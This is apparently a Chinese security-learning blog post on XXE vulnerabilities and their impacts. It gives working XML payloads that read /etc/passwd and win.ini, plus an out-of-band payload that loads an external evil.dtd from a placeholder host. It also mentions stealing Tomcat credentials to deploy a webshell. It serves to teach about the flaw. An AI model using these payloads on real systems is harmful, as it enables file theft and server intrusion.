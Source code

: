 ﻿---
title: XXE学习(二) 危害及防御
categories: web漏洞
---
## 危害
xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等 

---


### 危害一：读取任意文件

#### 有回显

Xml.php:
```xml
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

访问XML.php可以读取etc/passwd文件内容

该CASE是读取/etc/passwd，有些XML解析库支持列目录，攻击者通过列目录、读文件，获取帐号密码后进一步攻击

如读取tomcat-users.xml得到帐号密码后登录tomcat的manager部署webshell。


例：

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
```

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

而外部evil.dtd中的内容。
```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```
